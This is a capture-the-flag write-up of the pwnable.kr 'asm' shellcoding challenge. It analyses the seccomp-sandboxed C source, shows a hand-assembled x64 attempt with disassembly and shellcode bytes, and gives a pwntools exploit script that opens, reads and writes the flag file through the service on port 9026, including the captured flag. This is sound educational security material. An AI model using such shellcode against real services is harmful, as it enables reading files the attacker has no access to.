

Challenge Description
Mommy! I think I know how to make shellcodes
ssh asm@pwnable.kr -p2222 (pw: guest)In the home folder there are these files:
$ ls -la
total 44
drwxr-x--- 5 root asm 4096 Oct 23 2016 .
drwxr-xr-x 116 root root 4096 Nov 12 21:34 ..
d--------- 2 root root 4096 Oct 23 2016 .bash_history
-r--r----- 1 root asm_pwn 33 Oct 12 2016 flag
-r-xr-sr-x 1 root asm_pwn 8704 Oct 12 2016 asm
-rw-r--r-- 1 root root 523 Oct 12 2016 asm.c
-rw-r--r-- 1 root root 211 Oct 12 2016 readme
-rw-r--r-- 1 root root 0 Oct 23 2016 .selected_editor
drwxr-xr-x 2 root root 4096 Oct 23 2016 .pwntools-cache
drwxrwxrwx 2 root root 4096 Jan 11 18:22 tmpChecking the readme:
$ cat readme
once you connect to port 9026, the "asm" binary will be executed under asm_pwn privilege.
make connection to challenge (nc 0 9026) then get the flag.Source Code Analysis
Opening asm.c:
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <seccomp.h>
#include <sys/prctl.h>
#include <fcntl.h>
#include <unistd.h>
#define LENGTH 128
void sandbox(){
scmp_filter_ctx ctx = seccomp_init(SCMP_ACT_KILL);
if (ctx == NULL) {
printf("seccomp error\n");
exit(0);
}
seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);
if (seccomp_load(ctx) < 0){
seccomp_release(ctx);
printf("seccomp error\n");
exit(0);
}
seccomp_release(ctx);
}
char stub[] = "\x48\x31\xc0\x48\x31\xdb\x48\x31\xc9\x48\x31\xd2\x48\x31\xf6\x48\x31\xff\x48\x31\xed\x4d\x31\xc0\x4d\x31\xc9\x4d\x31\xd2\x4d\x31\xdb\x4d\x31\xe4\x4d\x31\xed\x4d\x31\xf6\x4d\x31\xff";
unsigned char filter[256];
int main(int argc, char* argv[]){
setvbuf(stdout, 0, _IONBF, 0);
setvbuf(stdin, 0, _IOLBF, 0);
printf("Welcome to shellcoding practice challenge.\n");
printf("In this challenge, you can run your x64 shellcode under SECCOMP sandbox.\n");
printf("Try to make shellcode that spits flag using open()/read()/write() systemcalls only.\n");
printf("If this does not challenge you. you should play 'asg' challenge :)\n");
char* sh = (char*)mmap(0x41414000, 0x1000, 7, MAP_ANONYMOUS | MAP_FIXED | MAP_PRIVATE, 0, 0);
memset(sh, 0x90, 0x1000);
memcpy(sh, stub, strlen(stub));
int offset = sizeof(stub);
printf("give me your x64 shellcode: ");
read(0, sh+offset, 1000);
alarm(10);
chroot("/home/asm_pwn");
sandbox();
((void (*)(void))sh)();
return 0;
}The program:
- Allocates memory space on the heap using the
mmapfunction, and setting the address to theshvariable. - Sets the first
0x1000bytes of the allocated memory with thenopinstruction (0x90opcode). - Copies the stub into the first bytes of the allocated memory.
- Gets the input "shellcode" from the user, and copies it after the stub in the allocated memory.
- Sets up a chroot jail, meaning that we can't use symlinks in
/tmp. - Loads the sandbox that limits the syscalls we can execute (
open,read,write). Any other syscall would kill the process. - Parses
shto a function and executes it.
Attempting Manual Shellcode
I started with a basic C program that opens the file and prints the content.
#include <stdlib.h>
#include <fcntl.h>
#include <unistd.h>
int main(int argc, char* argv[]){
int fd = open("this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong", O_RDONLY);
char* c = (char*)calloc(100, sizeof(char));
read(fd, c, 100);
write(1, c, 100);
exit(0);
}Compiled and run locally, this prints the dummy flag from the local file, so the logic is fine. The only problem is that calloc is using syscalls that are not allowed in this environment. As I don't think there is a way around using syscalls other than the allowed ones, I decided to write the shellcode directly in assembly.
I wrote this small assembly file that reads from stdin and echoes to stdout:
.bss
buf:
.skip 100
.text
.global _start
_start:
.intel_syntax noprefix
mov rax, 0
mov rdi, 0
lea rsi, [rip+buf]
mov rdx, 100
syscall
mov rdi, 1
mov rdx, rax
mov rax, 1
lea rsi, [rip+buf]
syscall
mov rax, 60
xor rdi, rdi
syscallSteps:
-
Assemble and link:
gcc -nostdlib -static asm-shell.s -o asm-shell.
The-nostdlibflag avoids linking the C runtime and other automatic startup code. This keeps the binary clean from unnecessary code, making it easier to extract just the shellcode we wrote. -
Run
objdump -M intel -d asm-shell:asm-shell: file format elf64-x86-64 Disassembly of section .text: 0000000000401000 <_start>: 401000: 48 c7 c0 00 00 00 00 mov rax,0x0 401007: 48 c7 c7 00 00 00 00 mov rdi,0x0 40100e: 48 8d 35 eb 0f 00 00 lea rsi,[rip+0xfeb] # 402000 <__bss_start> 401015: 48 c7 c2 64 00 00 00 mov rdx,0x64 40101c: 0f 05 syscall 40101e: 48 c7 c7 01 00 00 00 mov rdi,0x1 401025: 48 89 c2 mov rdx,rax 401028: 48 c7 c0 01 00 00 00 mov rax,0x1 40102f: 48 8d 35 ca 0f 00 00 lea rsi,[rip+0xfca] # 402000 <__bss_start> 401036: 0f 05 syscall 401038: 48 c7 c0 3c 00 00 00 mov rax,0x3c 40103f: 48 31 ff xor rdi,rdi 401042: 0f 05 syscall -
Dump
.textsection into a file calledshell:objcopy --dump-section .text=shell asm-shell -
Convert to shellcode bytes:
xxd -p shell | sed 's/../\\x&/g; s/$/\\n/'and got:\x48\xc7\xc0\x00\x00\x00\x00\x48\xc7\xc7\x00\x00\x00\x00\x48\x8d\x35\xeb\x0f\x00\x00\x48\xc7\xc2\x64\x00\x00\x00\x0f\x05\x48\xc7\xc7\x01\x00\x00\x00\x48\x89\xc2\x48\xc7\xc0\x01\x00\x00\x00\x48\x8d\x35\xca\x0f\x00\x00\x0f\x05\x48\xc7\xc0\x3c\x00\x00\x00\x48\x31\xff\x0f\x05 - Passing the result to
~/asmresults in a segmentation fault. - Piping it into the program ran without an error, but as expected it did not print anything useful.
I tried to extend the assembly to actually call open on the long filename, but this became very annoying:
- In shellcode there is no
.datasection for the filename, so I couldn't just set it as a "variable". - I would have to save the very long name onto the stack manually.
- I cannot use a shorter alias using a symlink, since the program puts a
chrootjail on/tmp.
At this point I decided that enough was enough. Although writing shellcode manually was a good learning experience, handling this specific case would be unnecessarily time-consuming. Switching to an automated tool like Pwntools made more sense here, and is also useful for future challenges. The Pwntools Shellcraft class could handle the long filename, and allow me write directly to the stack without using unsupported syscalls.
Solution with Pwntools Shellcraft
After all the effort hand-crafting x86-64 shellcode I decided to try using the pwntools library for creating shellcode: shellcraft.
This turned out to be so much easier for generating shellcode.
Here is the exploit script, which generates the shellcode, connects to the remote running process and passes the shellcode:
from pwn import *
context.arch = 'x86_64'
filename = 'this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong'
shellcode = shellcraft.open(filename, 0, 0)
shellcode += shellcraft.read('rax', 'rsp', 50)
shellcode += shellcraft.write(1, 'rsp', 50)
shellcode += shellcraft.exit(0)
t = remote('localhost', 9026)
lines = t.recv()
print(lines.decode())
t.sendline(asm(shellcode))
lines = t.recv()
print(lines.decode())Running python3 shell.py we get:
[+] Opening connection to localhost on port 9026: Done
Welcome to shellcoding practice challenge.
In this challenge, you can run your x64 shellcode under SECCOMP sandbox.
Try to make shellcode that spits flag using open()/read()/write() systemcalls only.
If this does not challenge you. you should play 'asg' challenge :)
give me your x64 shellcode:
Mak1ng_5helLcodE_i5_veRy_eaSy
[*] Closed connection to localhost port 9026Woohoo! mission accomplished.
Script Breakdown
Let's go over the code crafting the shellcode:
-
shellcraft.open(filename, 0, 0)
filenameis the long flag file name, relative to the current working directory.flags = 0meansO_RDONLY.modeis ignored because we are not creating a file.
rax. -
shellcraft.read('rax', 'rsp', 50)
fd = rax, because the file descriptor of the newly opened file is inrax.buf = rsp, so we use the current stack as our buffer.size = 50, which is enough to read the flag.
-
shellcraft.write(1, 'rsp', 50)
fd = 1is stdout.buf = rspbecause this is where the content we just read is stored.size = 50to match the read size, so we print exactly what we read.
asm(shellcode) converts the assembly string into actual machine code bytes, which we send as our payload.
References
- A shellcode database: https://shell-storm.org/shellcode/index.html
- Nice Introduction to x64 Assembly: https://www.cs.uaf.edu/2017/fall/cs301/reference/x86_64.html